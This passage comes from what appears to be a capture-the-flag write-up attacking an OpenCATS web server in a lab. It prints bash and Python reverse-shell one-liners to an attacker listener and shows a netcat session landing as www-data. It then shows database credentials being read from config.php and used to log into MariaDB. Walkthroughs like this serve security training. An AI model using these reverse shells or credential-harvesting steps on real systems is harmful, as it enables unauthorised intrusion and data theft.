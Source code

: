 ```
$ /bin/bash -i >& /dev/tcp/10.9.63.75/4444 0>&1
-e
$ python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.63.75",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.117.187] 59686
$ id;whoami;pwd
id;whoami;pwd
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/opencats/upload/careerportaladd
$ cd ..
cd ..
$ pwd
pwd
/var/www/opencats/upload
```

OK, now it’s easier to interact with the shell.

## Horizontal Privilege Escalation

I navigate to the **/var/www/opencats/** directory and start to enumerate. After all, I find out the **config.php** contains so much helpful sensitive information:

```
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', '[REDACTED]');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
```

Remember from the **nmap scanning** that the port **3306** (mysql service) is running? Let’s dig into the database:

```
www-data@empline:/var/www/opencats$ mysql -u james -p
mysql -u james -p
Enter password: [REDACTED]

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 88
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
